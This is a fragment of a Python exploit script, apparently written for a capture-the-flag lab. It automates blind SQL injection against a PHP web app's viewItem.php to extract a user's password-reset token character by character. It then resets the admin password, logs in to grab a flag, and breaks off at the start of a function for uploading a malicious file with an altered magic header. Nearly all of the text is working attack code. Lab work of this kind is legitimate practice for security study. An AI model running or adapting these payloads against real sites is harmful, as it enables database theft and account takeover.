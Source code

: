 ```py
    else:
        print("[+] I don't know the username from the user_id = %s !!!!! Change it in the code, if you know [+]" %user_id)
        sys.exit()

# Function to auto Blind-SQLInjection
def valueExtract(rhost,user_id):
    url_ori = "http://%s" %rhost + "/item/viewItem.php?id=1+"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    token_password = []
    list_number = list(range(1, 151))
    limit = 1
    iterator = 1
    print("[+] The token for username with the user id %s is... [+]" %user_id)
    while(iterator < len(list_number)):
        for c in [list_number[iterator]]:
            payload = "and+ascii(substr((select+token+from+user+where+id+=+%s),%s,1))+=+%s+--+-" %(user_id,limit,c)
            url = url_ori + payload
            res = r.get(url, proxies=proxies, headers=headers, allow_redirects=False)
            if res.status_code == 404:
                c = chr(c)
                password.append(c)
                token_password.append(c)
                limit += 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                password = []
                url = url_ori
    print()
    global token_change
    token_change = ''.join(token_password)
    print("[+] Got the token for the user id %s = %s !! [+]" %(user_id,token_change))

# Function to change the password
def changePassword(rhost,token_change):
    print("[+] Let's change the password now !! [+]")
    url = "http://%s:80/login/doChangePassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"token": "%s" %token_change, "password": "0x4rt3mis"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Password Changed !!! [+]")
    
# Function to login in the web app
def loginApp(rhost):
    print("[+] Let's Login as Admin !! [+]")
    url = "http://%s:80/login/checkLogin.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "0x4rt3mis"}
    login_page = r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Logged In !!! Let's catch the flag one !! [+]")
    index = login_page.text.find("FLAG1")
    flag = login_page.text[index:index+60].split(':')[1]
    flag = flag.split(' ')[1]
    print("[+] The Flag 01 is: %s [+]" %flag)

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    url = "http://%s/item/updateItem.php" %rhost
```